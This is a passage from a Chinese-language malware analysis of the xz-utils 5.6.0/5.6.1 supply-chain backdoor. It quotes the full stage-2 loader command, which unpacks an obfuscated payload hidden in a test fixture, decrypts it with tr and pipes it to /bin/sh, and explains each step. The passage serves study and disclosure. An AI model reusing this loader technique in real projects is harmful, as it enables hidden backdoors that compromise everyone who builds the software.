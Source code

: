 可以看到5.6.0 和 5.6.1 的一些区别：

第一个区别是第二行注释中的随机字节。在5.6.0 是 86 F9 5A F7 2E 68 6A BC, 而在 5.6.1 是 E5 55 89 B7 24 04 D8 17. 暂时不确定这些差异是否有意义。

第二个区别是5.6.1版本添加了检测是否在 Linux 上运行代码，而它重复了 5 次，这很奇怪。

先分析第 2 阶段提取代码，即带有很多head的`export i=... `行。进行简单拆分：

```sh
export i=&#34;((head -c &#43;1024 &gt;/dev/null) &amp;&amp; head -c &#43;2048 &amp;&amp; (head -c &#43;1024 &gt;/dev/null) &amp;&amp; head -c &#43;2048 &amp;&amp; (head -c &#43;1024 &gt;/dev/null) &amp;&amp; head -c &#43;2048 &amp;&amp; (head -c &#43;1024 &gt;/dev/null) &amp;&amp; head -c &#43;2048 &amp;&amp; (head -c &#43;1024 &gt;/dev/null) &amp;&amp; head -c &#43;2048 &amp;&amp; (head -c &#43;1024 &gt;/dev/null) &amp;&amp; head -c &#43;2048 &amp;&amp; (head -c &#43;1024 &gt;/dev/null) &amp;&amp; head -c &#43;2048 &amp;&amp; (head -c &#43;1024 &gt;/dev/null) &amp;&amp; head -c &#43;2048 &amp;&amp; (head -c &#43;1024 &gt;/dev/null) &amp;&amp; head -c &#43;2048 &amp;&amp; (head -c &#43;1024 &gt;/dev/null) &amp;&amp; head -c &#43;2048 &amp;&amp; (head -c &#43;1024 &gt;/dev/null) &amp;&amp; head -c &#43;2048 &amp;&amp; (head -c &#43;1024 &gt;/dev/null) &amp;&amp; head -c &#43;2048 &amp;&amp; (head -c &#43;1024 &gt;/dev/null) &amp;&amp; head -c &#43;2048 &amp;&amp; (head -c &#43;1024 &gt;/dev/null) &amp;&amp; head -c &#43;2048 &amp;&amp; (head -c &#43;1024 &gt;/dev/null) &amp;&amp; head -c &#43;2048 &amp;&amp; (head -c &#43;1024 &gt;/dev/null) &amp;&amp; head -c &#43;2048 &amp;&amp; (head -c &#43;1024 &gt;/dev/null) &amp;&amp; head -c &#43;939)&#34;;

(xz -dc $srcdir/tests/files/good-large_compressed.lzma|eval $i|tail -c &#43;31233|tr &#34;\114-\321\322-\377\35-\47\14-\34\0-\13\50-\113&#34; &#34;\0-\377&#34;)|xz -F raw --lzma1 -dc|/bin/sh
```



1. 开头的`export i=... ` 只是一个函数定义。它会在Stage 2 和 Stage 3 中被调用。

2. 第 2 步是将 `good-large_compressed.lzma` 文件解压缩到标准输出 (xz -dc) ，并用作下一步的输入；

3. 然后会调用 i 函数 (`eval $i`)。该函数基本上是一系列head调用，要么输出接下来的 N 个字节（`head -c &#43;N`），要么跳过接下来的 N 个字节（`head -c &#43;N &gt;/dev/null`）。i 函数最终实现：忽略 1024 个字节，再输出 2048 个字节，忽略 1024 个字节，再输出 2048 个字节...依此类推，直到到达文件的最末尾，其中只有 724 个字节（在 5.6.0 中）或 939输出字节（在 5.6.1 中）。

4. 接下去执行 `tail -c &#43;31233 `忽略数据的初始部分（`tail -c &#43;N` 表示“从字节 N 开始输出”，注：初始部分隐藏了二进制后门，会将在下一阶段中提取）。在 5.6.0 中，这将是前 31264 个字节，在 5.6.1 中是 31232 。

5. 第5步执行 tr 命令，用作简单的替换密码，密钥（字节值映射）在 5.6.0 和 5.6.1 中不同，两种情况下，都有 6 个范围映射到整个 0 - 255（即八进制 377）范围。

   ```sh
   5.6.0: tr &#34;\5-\51\204-\377\52-\115\132-\203\0-\4\116-\131&#34; &#34;\0-\377&#34;
   5.6.1: tr &#34;\114-\321\322-\377\35-\47\14-\34\0-\13\50-\113&#34; &#34;\0-\377&#34;
   ```

6. 在最后一步中，解密的数据被解压缩（`xz -F raw --lzma1 -dc`），并且立即执行Stage 2。

5.6.0 解压结果部分：
